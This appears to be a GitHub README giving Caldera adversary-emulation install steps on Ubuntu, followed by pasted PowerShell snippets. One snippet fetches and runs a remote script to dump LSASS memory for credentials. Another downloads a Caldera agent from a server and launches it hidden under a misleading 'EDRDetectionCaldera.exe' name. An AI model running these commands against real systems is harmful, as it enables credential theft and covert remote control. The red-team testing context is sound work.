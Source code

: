 This folder conatins Caldera Installation Steps on Ubuntu and Related Documents.


Caldera Installation Steps:
1. Download the filed default.yml and install_caldera.sh file from github
2. Change the permission of file  install_caldera.sh
        chmod +x install_caldera.sh
3. run install_caldera.shc
        ./install_caldera.sh
4. Create screen and run caldera build in caldera directory 
         screen -S caldera_install
         python3 server.py --insecure --build
5. Access  http://localhost:8888 in Chrome browser. Credentials are there in default.yml file.

Installation Document: 
https://caldera.readthedocs.io/en/latest/Installing-Caldera.html


YouTube Caldera Adversary Emulation:
https://www.youtube.com/watch?v=EIHLXWnK1Dw&t=4378s




[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (New-Object Net.WebClient).DownloadString('https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1'); get-process lsass | Out-Minidump



Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore


$server="http://10.99.156.91:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\EDRDetectionCaldera.exe"} | stop-process -f;rm -force "C:\Users\Public\EDRDetectionCaldera.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\EDRDetectionCaldera.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\EDRDetectionCaldera.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
